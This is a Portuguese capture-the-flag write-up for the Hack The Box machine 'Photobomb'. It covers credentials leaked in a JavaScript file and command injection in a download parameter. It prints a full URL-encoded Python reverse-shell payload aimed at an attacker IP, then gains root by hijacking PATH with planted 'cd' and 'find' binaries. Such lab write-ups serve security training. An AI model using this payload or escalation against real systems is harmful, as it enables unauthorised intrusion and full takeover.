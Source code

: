 # Photobomb 

### Máquina avaliada na estatísticas da plataforma como "CTF-Like", na categoria de máquinas fáceis.

<br><br>

# Write-up

### Primeiros passos
    Quando se trata de CTFs, um passo muito comum é rodar um NMAP para escanear a rede em busca de portas abertas e mapear melhor a estrutura de rede do alvo. 


![print](pics/nmap.png)

    Nota-se que as portas 22 e 80 estão abertas, podemos observar também que na porta 80 estamos sendo direcionados para a URL "http://photobomb.htb". Podemos então adicionar este endereço para o nosso arquivo "/etc/hosts".



![print](pics/hosts.png)
<br><br><br>

    Ao acessar o endereço desta paǵina web, obtemos a seguinte landing page:

![print](pics/home.png)

    Temos muitas opções do que verificar a partir daqui, porém uma das maneiras mais comuns de se começar é ler o código fonte da página.
    
    Ao ler o código fonte, podemos notar um script chamado "photobomb.js", conforme imagem abaixo.

![print](pics/codigofonte.png)
<br><br><br>
    
    Podemos acessar o script clicando nele, e após isto somos levados para o seu código fonte. Onde podemos observar uma função que manipula o DOM da página, com a classe "creds" (credenciais). 

    A URL da imagem abaixo aparenta ser um login e uma senha, e após isto um diretório no site "/printer".



![print](pics/photobombjs.png)
<br><br><br>

    Agora temos credenciais para acessar algo, e um diretório no website. Vamos prosseguir para o diretório /printer e ver o que nos aguarda.

![print](pics/login.png)

    Perfeito! Somos recebidos com um pedido de login, basta usarmos as credenciais obtidas anteriormente.

<br><br><br>

![print](pics/printer.png)
    
    Ao obter acesso neste diretorio, podemos encontrar este botão de "Download" e explorar melhor esta funcionalidade capturando a requisição utilizando o burp.

<br><br><br>

![print](pics/burp.png)

    Nesta requisição, temos 03 parâmetros diferentes e a primeira opção seria testar um "command injection" e ver se algum deles está vulnerável.

    Podemos testar isto com um webhook, ou até mesmo através de um servidor web local, como o módulo http.server do Python.

    Para simplificar o nosso caminho, vamos usar o módulo Python.

    $ python3 -m http.server 80

<br><br><br>

![print](pics/filetype.png)

    Ao testar o parâmetro "filetype", podemos constatar que este está vulnerável pois conseguimos executar o comando anterior.

<br><br><br>

![print](pics/bingo.png)

<br><br><br>

    Agora basta inserirmos o payload correto e podemos obter um shell reverso, recomendo o site "revshells.com" que é uma excelente ferramenta nestes momentos.

    PAYLOAD Url-encoded:  (SUBSTITUIR 10.10.X.X)
    export%20RHOST%3D%2210.10.X.X2%22%3Bexport%20RPORT%3D4444%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27

<br><br><br>

![print](pics/revshell.png)

<br><br><br>

## Caminho para o ROOT

    A maneira mais direta para o usuário Root, geralmente é ver quais comandos o usuário atual pode executar como root.

    Para isto, utilizamos o comando "sudo -l" e notamos que podemos rodar um script chamado "cleanup.sh"

![print](pics/sudol.png)

    Basicamente este comando armazena o conteúdo do arquivo "photomb.log" em um arquivo chamado "photobomb.log.old" e após isto limpa seu conteúdo.

    A vulnerabilidade deste script "cleanup.sh" está na maneira em que ele troca de diretório, podemos observar que o autor do script usou caminhos relativos e não absolutos para referenciar os binários "cd" e "find".

    Logo, podemos criar arquivos "cd" e "find" maliciosos na pasta /tmp (onde todos os usuários podem gravar arquivos). 

    Estes arquivos "cd" e "find" maliciosos só possuirão o comando "/bin/bash" e permissão de execuão que irá chamar um terminal com o usuário no qual estamos executando o comando, que neste caso, será o usuário root.

![print](pics/cleanup.png)


    Após criar os binários "cd" e "find" com o mesmo payload ("/bin/bash") e garantir permissões de execução, basta apenas executarmos o comando:
    sudo PATH=/tmp:$PATH /opt/cleanup.sh que modificará a variável de ambiente "PATH" e fará com que os binários locais sejam executados antes dos demais binários, garantindo então nosso acesso root.


![print](pics/root.png)

### Agradeço ao time Hack The Box pela máquina e pelo grande aprendizado!
@tokram
